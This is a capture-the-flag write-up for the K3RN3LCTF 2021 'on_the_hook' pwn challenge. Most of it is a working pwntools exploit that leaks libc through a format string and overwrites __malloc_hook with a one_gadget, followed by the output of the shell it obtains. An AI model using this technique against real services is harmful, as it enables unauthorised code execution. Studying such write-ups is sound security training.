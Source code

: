 # K3RN3LCTF 2021 

## on\_the\_hook

> Captain Malloc lost his hook find it and than grab a shell for your effort.
> 
> `nc ctf.k3rn3l4rmy.com 2201`
>
> Author: Bex
> 
> [`on_the_hook`](on_the_hook) [`libc.so.6`](libc.so.6)

Tags: _pwn_ _x86_ _malloc_ _malloc-hook_ _write-what-where_ _format-string_


## Summary

I'm not interested in writing a lengthly write up since this is just a ripoff of a challenge from other CTFs (seen it, done it).

Read [this](https://github.com/datajerk/ctf-write-ups/tree/master/dctf2021/formats_last_theorem) for details on how this exploit works.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./on_the_hook')

if args.REMOTE:
    p = remote('ctf.k3rn3l4rmy.com', 2201)
    libc = ELF('./libc.so.6')
    __libc_start_main_offset = 247
    libc.symbols['gadget'] = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6][2]
else:
    p = process(binary.path)
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    __libc_start_main_offset = 245
    libc.symbols['gadget'] = [0xcdc4b,0x1487fb,0x1487fc][2]

offset = 7

p.sendlineafter(b':\n',b'%27$010p')
libc.address = int(p.recvline().strip(),16) - libc.sym.__libc_start_main - __libc_start_main_offset
log.info('libc.address: {x}'.format(x = hex(libc.address)))

payload = fmtstr_payload(offset,{libc.sym.__malloc_hook:libc.sym.gadget},write_size='short')
assert(len(payload) < 0x40)
assert(payload.find(b'\n') == -1)

p.sendline(payload)
p.recvuntil(b'\n')
p.sendline(b'%65536c')
p.interactive()
```

Basically leak libc with format string, then use second format string as write-what-where to write out a malloc hook with a one\_gadget, then use a third format string to malloc a buffer, thus trigging a malloc.

The `assert` statements catch if the length is greater than the `fgets` buffer and if the attack has a newline since `fgets` will terminate early.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/k3rn3lctf2021/on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2201: Done
[*] '/pwd/datajerk/k3rn3lctf2021/on_the_hook/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0xf7df5000
[*] Switching to interactive mode
$ id
uid=1000 gid=1000 groups=1000
$ cat flag.txt
flag{m4l1oc_h0ok_4nd_0n3_g4d9et_3a5y_a5_7h4t}
```
